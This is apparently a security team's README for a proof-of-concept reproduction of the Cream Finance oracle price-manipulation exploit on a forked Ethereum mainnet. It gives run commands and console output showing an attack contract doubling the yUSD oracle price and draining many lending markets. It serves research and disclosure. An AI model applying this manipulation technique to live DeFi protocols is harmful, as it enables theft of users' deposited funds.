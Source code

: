 # CREAM_ORACLE PoC

> Block: #13499798

## How to run

Install brownie first

Set up the environment variable for $ARCHIVENODE_TOKEN


```
export $ARCHIVENODE_TOKEN = xxxxx
sh start_archive.sh

then 

sh run.sh
```

- Result:

```bash
Brownie v1.16.2 - Python development framework for Ethereum

CreamProject is the active project.

Launching 'ganache-cli --port 8849 --gasLimit 880000000000 --accounts 10 --hardfork istanbul --mnemonic brownie --fork https://speedy-nodes-nyc.moralis.io/20189123bd8fd22f2ac08e16/eth/mainnet/archive/@13499797 --defaultBalanceEther 10000000000000 --chainId 1'...

Running 'scripts/gbu.py::main'...
Transaction sent: 0x9af371e792238e1c68882b9057296d5a3c28e48a1df8163f05b1f878072d3ce0
  Gas price: 0.0 gwei   Gas limit: 880000000000   Nonce: 2
  Luck.constructor confirmed   Block: 13499799   Gas used: 3180843 (0.00%)
  Luck deployed at: 0xE7eD6747FaC5360f88a2EFC03E00d25789F69291

Before The YUSD's price in cream.finance oracle: 279300989383783

Transaction sent: 0x3a1265b942688707f81cbd3adf420db3b81ae8fff0768696c9f84bcc4f367b45
  Gas price: 0.0 gwei   Gas limit: 880000000000   Nonce: 3
  Luck.luck confirmed   Block: 13499800   Gas used: 28578950 (0.00%)

After The YUSD's price in cream.finance oracle: 558660521726027


🧛 The profit list:
ETH profits:  1966.078292523257
Ypool_LP profits:  166385.4648287775
attack contract1 Luck's liquidity in cream.finance: liquidity = 25266095875700508730941, shortfall = 0
attack contract2 LuckPartner's liquidity in cream.finance: liquidity = 0, shortfall = 368876768432684334164260
CrETH cash: 0, CrETH profits: 0
The cash of crCRETH2 in cream.finance is 0.
crCRETH2 balance: 0, CRETH2 balance: 12266463816009145730493
The cash of crXSUSHI in cream.finance is 0.
crXSUSHI balance: 0, xSUSHI balance: 623760529988486822779519
The cash of crWNXM in cream.finance is 0.
crWNXM balance: 0, wNXM balance: 135402944541301517084130
The cash of crPERP in cream.finance is 0.
crPERP balance: 0, PERP balance: 447222593590652214743874
The cash of crRUNE in cream.finance is 0.
crRUNE balance: 0, RUNE balance: 418917294792442850457949
The cash of crDPI in cream.finance is 0.
crDPI balance: 0, DPI balance: 15567575750097560251951
The cash of crUNI in cream.finance is 0.
crUNI balance: 0, UNI balance: 156629158238930877722356
The cash of crUSDC in cream.finance is 0.
crUSDC balance: 0, USDC balance: 4324457152800
The cash of crFEI in cream.finance is 0.
crFEI balance: 0, FEI balance: 3817374503105485458327683
The cash of crUSDT in cream.finance is 0.
crUSDT balance: 0, USDT balance: 3780808755759
The cash of crYVCurve-stETH in cream.finance is 0.
crYVCurve-stETH balance: 0, yvCurve-stETH balance: 747480864886637652351
The cash of crGNO in cream.finance is 0.
crGNO balance: 0, GNO balance: 6937023757101307138911
The cash of crFTT in cream.finance is 0.
crFTT balance: 0, FTX Token balance: 38922154159018669294167
The cash of crYGG in cream.finance is 0.
crYGG balance: 0, YGG balance: 341681583099484551498506
The cash of crYUSD in cream.finance is 0.
crYUSD balance: 6701346099885525301, yUSD balance: 0
```

> NOTE: We can see the price of yusd in cream.finance is doubled after this expolit. 
> 
> It likes some kind of price manipulation (direct one) that was described in our paper: DeFiRanger: Detecting Price Manipulation Attacks on DeFi Applications https://arxiv.org/abs/2104.15068).

## link 

- https://twitter.com/BlockSecTeam/status/1453393444047441923

## More About:
- https://blocksecteam.com
